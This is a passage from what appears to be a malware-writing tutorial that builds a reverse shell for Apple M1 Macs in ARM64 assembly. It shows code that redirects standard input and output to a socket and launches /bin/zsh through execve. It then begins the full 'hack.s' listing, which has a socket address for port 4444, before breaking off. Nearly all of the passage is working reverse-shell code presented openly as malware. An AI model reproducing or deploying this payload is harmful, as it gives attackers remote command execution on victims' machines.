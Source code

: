 After these three syscalls, `stdin/out/err` point to the network socket. Anything typed in the listener appears here.   

Finally, launch the shell: build `/bin/zsh` on the stack and call `execve`:    

```nasm
; execve("/bin/zsh", ["/bin/zsh", NULL], NULL)
; push path
mov     x3, #0x622f             ; "/b"
movk    x3, #0x6e69, lsl#16     ; "in"
movk    x3, #0x7a2f, lsl#32     ; "/z"
movk    x3, #0x6873, lsl#48     ; "sh"
stp     x3, xzr, [sp, #-16]!    ; "/bin/zsh\0"

; argv = { path, NULL }
add     x0, sp, xzr             ; x0 = pointer to path
stp     x0, xzr, [sp, #-16]!    ; push argv array
add     x1, sp, xzr             ; x1 = argv
mov     x2, xzr                 ; envp = NULL

mov     x16, #59                ; execve (bsd syscall 59)
svc     #0xffff
```

If `execve` succeeds, this process image is replaced by `zsh`. If it returns, something broke, and we exit.    

```nasm
_exit_fail:
  mov     x0, #1
  bl      _exit
```

So, full source code looks like this `hack.s`:    

```nasm
; hack.s
; apple M1 ARM reverse shell
; author: cocomelonc
; https://cocomelonc.github.io/macos/2025/10/15/malware-mac-12.html

.text
.global _start
.align 2
.section  __TEXT,__text
  ; sockaddr_in for 127.0.0.1:4444
  ; memory layout (little-endian):
  ; sin_len (1), sin_family (1), sin_port (2 BE), sin_addr (4), sin_zero[8]
  .data
sockaddr_in:
  .byte 16, 2, 0x11, 0x5c, 127, 0, 0, 1, 0,0,0,0, 0,0,0,0
  .text

_start:
  ; create socket: socket(AF_INET, SOCK_STREAM, 0)
  mov     x0, #2
  mov     x1, #1
  mov     x2, xzr
  mov     x16, #97
  svc     #0xffff
  ; check result in x0 (>=0)
  cmp     x0, #0
  blt     _exit_fail

  ; save socket fd
  mov     x19, x0

```